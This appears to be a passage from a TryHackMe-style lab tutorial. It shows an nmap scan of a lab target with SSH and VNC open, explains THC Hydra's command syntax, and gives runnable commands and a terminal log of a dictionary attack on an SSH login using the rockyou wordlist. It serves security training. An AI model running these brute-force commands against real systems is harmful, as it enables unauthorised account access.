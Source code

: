 ```shell-session
root@AttackBox# nmap -sS MACHINE_IP
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-16 11:57 EET
Nmap scan report for MACHINE_IP
Host is up (0.081s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5900/tcp open  vnc

Nmap done: 1 IP address (1 host up) scanned in 2.28 seconds
```

We want an automated way to try the common passwords or the entries from a word list; here comes [THC Hydra](https://github.com/vanhauser-thc/thc-hydra). Hydra supports many protocols, including SSH, VNC, FTP, POP3, IMAP, SMTP, and all methods related to HTTP. You can learn more about THC Hydra by joining the [Hydra](https://tryhackme.com/room/hydra) room. The general command-line syntax is the following:

`hydra -l username -P wordlist.txt server service` where we specify the following options:

-   `-l username`: `-l` should precede the `username`, i.e. the login name of the target. You should omit this option if the service does not use a username.
-   `-P wordlist.txt`: `-P` precedes the `wordlist.txt` file, which contains the list of passwords you want to try with the provided username.
-   `server` is the hostname or IP address of the target server.
-   `service` indicates the service in which you are trying to launch the dictionary attack.

Consider the following concrete examples:

-   `hydra -l mark -P /usr/share/wordlists/rockyou.txt MACHINE_IP ssh` will use `mark` as the username as it iterates over the provided passwords against the SSH server.
-   `hydra -l mark -P /usr/share/wordlists/rockyou.txt ssh://MACHINE_IP` is identical to the previous example. `MACHINE_IP ssh` is the same as `ssh://MACHINE_IP`.

You can replace `ssh` with another protocol name, such as `rdp`, `vnc`, `ftp`, `pop3` or any other protocol supported by Hydra.

There are some extra optional arguments that you can add:

-   `-V` or `-vV`, for verbose, makes Hydra show the username and password combinations being tried. This verbosity is very convenient to see the progress, especially if you still need to be more confident in your command-line syntax.
-   `-d`, for debugging, provides more detailed information about what’s happening. The debugging output can save you much frustration; for instance, if Hydra tries to connect to a closed port and timing out, `-d` will reveal this immediately.

In the terminal window below, we use Hydra to find the password of the username `alexander` that allows access via SSH.

AttackBox Terminal

```shell-session
root@AttackBox# hydra -l alexander -P /usr/share/wordlists/rockyou.txt ssh://MACHINE_IP -V
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-15 13:39:52
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://MACHINE_IP:22/
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "iloveyou" - 5 of 14344399 [child 4] (0/0)
```